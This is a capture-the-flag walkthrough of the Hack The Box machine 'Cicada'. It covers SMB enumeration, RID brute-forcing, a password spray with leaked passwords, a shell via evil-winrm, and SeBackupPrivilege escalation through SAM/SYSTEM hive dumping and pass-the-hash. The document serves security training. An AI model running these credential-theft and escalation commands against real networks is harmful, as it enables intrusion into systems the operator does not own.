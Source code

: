 # Cicada

<figure><img src="../../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

Machine IP Address : 10.10.11.35



### Enumeration Phase

Start with Nmap Scan

```
nmap -Pn -A -p- 10.10.11.35
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This seems to be an Active Directory box.



### Enumerating SMB

I started by enumerating SMB to see what access is available for guest/anonymous users.

```
smbmap -H 10.10.11.35 -u 'anonymous'
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

First, I tried accessing each share. Using smbclient, I was able to access the HR share.

```
smbclient \\\\10.10.11.35\\HR -U "anonymous"
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

"I used the `get` command in smbclient to transfer the 'Notice from HR.txt' file, which revealed a password."

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now that we have a password, let's see if any users are using it.



### Enumerating Users

We try to find domain users by brute-forcing RIDs.

```
nxc smb 10.10.11.35 -u 'anonymous' -p '' --rid-brute
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I found several usernames, so I’ll try to validate them using the password we discovered. I put all the usernames in a text file and performed a password spray.

```
nxc smb 10.10.11.35 -u userrr.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' 
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We found a user who uses the password: 'michael.wrightson.

Next, I’ll look for a user with higher privileges.

```
nxc smb 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'  --users
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

And we found a user whose password is stored in the description

Now, I ran `smbmap` to check if this user has access to more shares, and it turns out they do.

<figure><img src="../../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

Checked the 'DEV' share and found a PowerShell script called 'Backup\_script.ps1.

"Executed the following commands to access the DEV share:

```bash
smbclient \\\\10.10.11.35\\DEV -U 'david.orelious'
Password for [WORKGROUP\david.orelious]:
```

I listed the contents with the `ls`command , and `get`the Backup\_script.ps1

<figure><img src="../../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

Checking its contents revealed a new user, 'emily.oscars,' along with her password!

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

### Get the Shell

Enumerated the shares with the new user but found nothing, so I tried to get a shell using ‘evil-winrm.

```
evil-winrm -i 10.10.11.35  -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```

Successfully obtained a shell.

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

Searched for the user flag in several directories and finally found it in `Desktop/user.txt`.

<figure><img src="../../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

### PrivEsc

Ran `whoami /priv` to check the user's privileges

<figure><img src="../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

With this, I realized that ‘SeBackupPrivilege’ can be used to gain read access to any file, including `root.txt`.

I did some more research and found a PowerShell script to access the `root.txt` file

{% embed url="https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Acl-FullControl.ps1?source=post_page-----83ddcc0db5c7--------------------------------" %}

We start with transfer the script to target computer with our python server running and following command.

<figure><img src="../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

Now, I ran the script using the following command to get access to the `root.txt` file

```
Acl-FullControl -user cicada\emily.oscars -path C:\users\administrator\desktop
```

<figure><img src="../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

Now, I can view the contents of `root.txt`!

<figure><img src="../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

## Other Method

Follow and refer this site to exploit : [Windows Privilege Escalation: SeBackupPrivilege](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/)&#x20;

Create or enter a folder where you want to save the files.

First, save the SAM and SYSTEM registry hives using the following commands:

```
reg save HKLM\SAM C:\Users\emily.oscar.CICADA\Videos\sam
reg save HKLM\SYSTEM C:\Users\emily.oscar.CICADA\Videos\system
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Download the files to your local machine, then use `pypykatz` to extract the hashes.

Using this command:

```
pypykatz registry --sam sam system
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

With the extracted hash, we can now log in again. Instead of using the password, we'll use the `-H` option to authenticate with the hash.

This allows us to bypass the need for a password and authenticate directly using the hash, providing elevated access.

Using this command:&#x20;

```
evil-winrm -i 10.10.11.35  -u 'Administrator' -H 'hash'
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Logged in as the Administrator using the hash, located the `root.flag` file, and displayed its contents with `cat`. Challenge complete!

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
